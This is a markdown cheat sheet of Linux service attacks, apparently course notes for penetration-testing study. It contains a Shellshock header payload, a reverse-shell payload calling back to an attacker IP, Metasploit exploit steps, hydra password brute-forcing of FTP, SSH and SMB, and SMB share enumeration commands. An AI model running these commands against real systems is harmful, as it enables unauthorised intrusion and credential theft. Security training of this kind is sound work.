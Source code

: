 # Linux Vulnerabilities

* [Frequently Exploited Linux Services](#frequently-exploited-linux-services)
* [Shellshock](#shellshock)
* [FTP](#ftp)
* [SSH](#ssh)
* [SAMBA](#samba)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Frequently Exploited Linux Services

* Apache Web Server -- TCP ports 80/443
* SSH -- TCP port 22
* FTP -- TCP port 21
* SAMBA -- TCP port 445

**************************************

## Shellshock

* CVE-2014-6271
* Bash
* Allows attacker to execute remote arbitrary commands via Bash
* Need to locate an input vector or script that allows you to communicate with Bash first
* Uses Common Gateway Interface (CGI) Scripts

### nmap
Check for Shellshock vulnerability:
```
nmap -sV [TARGET-IP] --script=http-shellshock --script-args "http-shellshock.uri=/[CGI-PATH]
```

### Burp Suite

* Use Burp Suite (or other attack proxy) to capture request of the .cgi location on the web server.
* Send it to the repeater.
* replace "User-Agent" with:
```
() { :; }; echo; echo; /bin/bash -c '[COMMAND-TO-EXECUTE]'
```
* and send it to the web server.
* The response should give you the output of the command specified 
* use this command to get a reverse shell (set up a listener before running it):
```
() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/[ATTACK-IP]/[LISTENER-PORT] 0>&1'
```

### Metasploit

```
search Shellshock
```
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```
```
set RHOSTS [TARGET-IP]
```
```
set TARGETURI [CGI-PATH]
```
and any other options (may need to change port for example)
```
exploit
```

**************************************

## FTP

Check for anonymous access:
```
ftp [TARGET-IP]
```
Username:
```
anonymous
```
Password:
```
```
Another way:  
nmap --script ftp-anon.nse

Download file:
```
get [FILE]
```

Login:
```
ftp [TARGET-IP]
```

### hydra

Dictionary Attack:
```
hydra -L [USERS-WORDLIST] -P [PASSWORD-WORDLIST] [TARGET-IP] ftp
```

**************************************

## SSH

### hydra

Dictionary attack:
```
hydra -L [USERNAME-WORDLIST] -P [PASSWORD-WORDLIST] [TARGET-IP] ssh
```
* -t [NUMBER] to change speed of attack


**************************************

## SAMBA

### hydra

Dictionary attack:
```
hydra -l [USERNAME] -P [PASSWORD-WORDLIST] [TARGET-IP] smb
```

### smbmap

Display shares:
```
smbmap -H [TARGET-IP] -u [USERNAME] -p [PASSWORD]
```

### smbclient

Display shares and workgroup:
```
smbclient -L 192.113.234.3 -U admin
```
* Then enter password when prompted.

Log into share:
```
smbclient //[TARGET-IP]/[SHARE] -U [USERNAME]
```

Download file:
```
get [FILE]
```

### enum4linux

Get information on target:
```
enum4linux -a [TARGET-IP]
```
Use credentials to get more information:
```
enum4linux -a -u [USERNAME] -p [PASSWORD] [TARGET-IP]
```

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2